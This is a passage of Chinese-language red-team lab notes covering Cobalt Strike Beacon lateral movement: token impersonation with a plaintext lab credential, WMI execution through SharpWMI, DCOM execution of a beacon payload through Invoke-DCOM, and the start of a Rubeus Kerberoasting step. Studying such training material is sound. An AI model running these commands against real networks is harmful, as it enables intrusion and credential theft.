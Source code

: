 ```

```
beacon> make_token DEV\jking Purpl3Drag0n
[+] Impersonated DEV\bfarmer

beacon> remote-exec wmi srv-2 calc
CoInitializeSecurity already called. Thread token (if there is one) may not get used
[-] Could not connect to srv-2: 5
```


我们知道```jking```是SRV-2上的本地管理员，但是由于```CoInitializeSecurity```已经被调用（可能是在bfarmer的上下文中），WMI执行失败，显示拒绝访问。

作为一种变通方法，你的WMI执行需要来自不同的进程。这可以通过 ```spawn``` 和 ```spawnas``` 等命令来实现，甚至可以使用```execute-assembly```执行```SharpWMI```工具

```
beacon> remote-exec wmi srv-2 calc
CoInitializeSecurity already called. Thread token (if there is one) may not get used
[-] Could not connect to srv-2: 5

beacon> execute-assembly C:\Tools\SharpWMI\SharpWMI\bin\Debug\SharpWMI.exe action=exec computername=srv-2 command="C:\Windows\System32\calc.exe"

[*] Host                           : srv-2
[*] Command                        : C:\Windows\System32\calc.exe
[*] Creation of process returned   : 0
[*] Process ID                     : 1312
```


# DCOM

Beacon 没有通过Distributed Component Object Model (DCOM) 进行交互的内置功能，因此必须使用诸如[Invoke-DCOM](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1)之类的外部工具。我们将在后面的模块中看到如何将其集成到jump命令中

```
beacon> powershell-import C:\Tools\Invoke-DCOM.ps1
beacon> powershell Invoke-DCOM -ComputerName srv-1 -Method MMC20.Application -Command C:\Windows\beacon-smb.exe
Completed

beacon> link srv-1
[+] established link to child beacon: 10.10.17.25
```


# Kerberos

kerberos验证流程

![alt Kerberos](https://rto-assets.s3.eu-west-2.amazonaws.com/kerberos/overview.png?width=1920)


# Kerberoasting

请求SPN

## 请求所有SPN

1. Rubeus
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe kerberoast /simple /nowrap
